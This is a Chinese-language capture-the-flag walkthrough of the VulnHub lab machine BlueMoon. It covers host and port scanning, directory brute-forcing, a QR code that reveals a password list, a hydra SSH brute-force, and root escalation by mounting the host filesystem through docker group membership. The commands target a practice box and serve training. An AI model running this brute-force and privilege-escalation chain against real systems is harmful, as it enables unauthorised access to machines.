下载地址：BlueMoon ~ VulnHub
主机发现
使用 netdiscover 扫描内网存活主机：
netdiscover -r 192.168.56.0/24
目标 IP 为 192.168.56.169。
端口与服务扫描
使用 nmap 进行端口扫描：
nmap -p- 192.168.56.169
服务版本扫描：
nmap -sV -p21,22,80 192.168.56.169
开放端口：21（FTP）、22（SSH）、80（HTTP）。
Web 信息收集
访问 80 端口：

目录爆破
使用 dirb 进行目录扫描：
dirb http://192.168.56.169
发现 /thankyou 路径：


thankyou 页面中有一个链接指向二维码图片：

二维码解码
访问二维码图片并下载：

使用在线工具或 zbarimg 解码：
zbarimg qrcode.png
解码后得到一个 SSH 连接脚本：


脚本中包含两个文件的信息。查看这两个文件：


其中一个文件实际上是 SSH 爆破用的密码字典。
SSH 爆破登录
使用 hydra 结合字典进行 SSH 爆破：
hydra -l admin -P password.txt ssh://192.168.56.169
成功爆破出 SSH 凭证：

SSH 登录成功：
ssh admin@192.168.56.169
查看当前用户信息：







发现当前用户属于 docker 用户组。
Docker 组提权
当前用户属于 docker 组，可以直接利用 Docker 逃逸挂载宿主机根目录：
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
成功获取 root 权限，查看 root flag：

